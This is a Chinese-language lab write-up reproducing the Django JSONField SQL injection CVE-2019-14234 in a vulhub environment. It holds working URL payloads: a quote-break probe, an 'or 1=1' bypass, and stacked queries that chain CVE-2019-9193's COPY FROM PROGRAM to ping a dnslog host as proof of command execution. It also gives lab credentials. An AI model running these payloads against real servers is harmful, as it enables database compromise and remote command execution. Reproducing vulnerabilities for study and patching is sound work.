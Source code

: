 ## CVE-2019-14234 Django JSONField SQL注入漏洞复现

标签： [漏洞复现](https://www.freesion.com/tag/漏洞复现/) [安全](https://www.freesion.com/tag/安全/)



# 0x01简介

Django是一款广为流行的开源web框架，由Python编写，许多网站和app都基于Django开发。

什么是JSONField，Django是一个大而全的Web框架，其支持很多数据库引擎，包括Postgresql、Mysql、Oracle、Sqlite3等，但与Django天生为一对儿的数据库莫过于Postgresql了，Django官方也建议配合Postgresql一起使用。

相比于Mysql，Postgresql支持的数据类型更加丰富，其对JSON格式数据的支持也让这个关系型数据库拥有了NoSQL的一些特点。

# 0x02漏洞简介

该漏洞需要开发者使用了JSONField/HStoreField，且用户可控queryset查询时的键名，在键名的位置注入SQL语句。

Django通常搭配postgresql数据库，而JSONField是该数据库的一种数据类型。该漏洞的出现的原因在于Django中JSONField类的实现，Django的model最本质的作用是生成SQL语句，而在Django通过JSONField生成sql语句时，是通过简单的字符串拼接。

通过JSONField类获得KeyTransform类并生成sql语句的位置。

其中key_name是可控的字符串，最终生成的语句是

```
WHERE (field->'[key_name]') ='value'
1
```

，因此可以进行SQL注入。
![1](C:\Users\litbaizhang\Desktop\20201222\DJANGO2\DJANGO JSONFIELD SQL注入漏洞CVE-2019-14234\1.jpg)

# 0x03影响版本

Django 主开发分支

Django 2.2.x < 2.2.4

Django 2.1.x < 2.1.11

Django 1.11.x < 1.11.23

# 0x04环境搭建

使用vulhub的docker环境搭建

vulhub下载地址：https://github.com/vulhub/vulhub

cd vulhub/django/CVE-2019-14234/
 docker-compose up -d
![2](C:\Users\litbaizhang\Desktop\20201222\DJANGO2\DJANGO JSONFIELD SQL注入漏洞CVE-2019-14234\2.png)

在浏览器访问http://ip:8000出现一下页面说明搭建成功
 ![3](C:\Users\litbaizhang\Desktop\20201222\DJANGO2\DJANGO JSONFIELD SQL注入漏洞CVE-2019-14234\3.JPEG)

# 0x05漏洞利用

通过对代码的分析，可以知道如果在你的Django中使用了JSONField并且查询的“键名”可控，就可以进行SQL注入

访问http://ip:8000/admin

输入用户名admin ，密码a123123123
![4](C:\Users\litbaizhang\Desktop\20201222\DJANGO2\DJANGO JSONFIELD SQL注入漏洞CVE-2019-14234\4.JPEG)

然后构造URL进行查询，payload：

http://ip:8000/admin/vuln/collection/?detail__a’b=123

![5](C:\Users\litbaizhang\Desktop\20201222\DJANGO2\DJANGO JSONFIELD SQL注入漏洞CVE-2019-14234\5.JPEG)

可以看到上图已经注入成功，并且可以看到构造的SQL语句，继续构造payload

```
http://ip:8000/admin/vuln/collection/?detail__title%27)%3d%271%27 or 1%3d1%2d%2d%20
1
```

由于or 1=1永为真，因此应该返回所有结果
![6](C:\Users\litbaizhang\Desktop\20201222\DJANGO2\DJANGO JSONFIELD SQL注入漏洞CVE-2019-14234\6.JPEG)

我们结合CVE-2019-9193我们尝试进行命令注入，构造url如下

```
http://192.168.10.195:8000/admin/vuln/collection/?detail__title')%3d'1' or 1%3d1 %3bcreate table cmd_exec(cmd_output text)--%20
1
```

页面结果虽然报错，但是报错原因是no results to fetch，说明我们的语句已经执行

![7](C:\Users\litbaizhang\Desktop\20201222\DJANGO2\DJANGO JSONFIELD SQL注入漏洞CVE-2019-14234\7.JPEG)

使用dnslog检测是否可以执行命令

Dnslog网址：http://dnslog.cn/

Payload:

```
http://192.168.10.195:8000/admin/vuln/collection/?detail__title')%3d'1' or 1%3d1 %3bcopy cmd_exec FROM PROGRAM 'ping k1anij.dnslog.cn
'--%20
12
```

![8](C:\Users\litbaizhang\Desktop\20201222\DJANGO2\DJANGO JSONFIELD SQL注入漏洞CVE-2019-14234\8.JPEG)

成功检测到流量
![9](C:\Users\litbaizhang\Desktop\20201222\DJANGO2\DJANGO JSONFIELD SQL注入漏洞CVE-2019-14234\9.JPEG)

复现环境里的postgresql数据库docker没对外的端口映射，如果开了或者真实环境里，还可以结合msf通过CVE-2019-9193来getshell

# 0x06修复方式

更新到最新版本

